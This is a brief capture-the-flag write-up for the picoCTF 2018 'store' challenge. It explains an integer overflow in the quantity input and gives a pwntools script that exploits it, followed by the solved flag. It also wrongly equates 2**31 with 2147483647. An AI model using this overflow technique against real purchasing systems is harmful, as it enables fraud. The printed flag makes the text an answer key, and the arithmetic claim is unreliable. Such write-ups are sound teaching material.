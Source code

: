 [Category:Picoctf](/Category:Picoctf "wikilink") We started a little
store, can you buy the flag? Source. Connect with 2018shell.picoctf.com
53220.

the code did not mitigate the problem that if int32.maxvalue is sent it
is so big that it wil turn in the the negative value which sets the
price to -1000 which gives us 1000 coins.

2\*\*31 = 2147483647

`  `
`from pwn import *`
`  `
`sh = process('./store')`
`for i in range(105):`
`  `
`    sh.sendline('2')`
`    sh.sendline('1')`
`    sh.sendline('2147483647')`
`  `
`sh.interactive()`
`  `
`picoCTF{numb3r3_4r3nt_s4f3_cbb7151f}`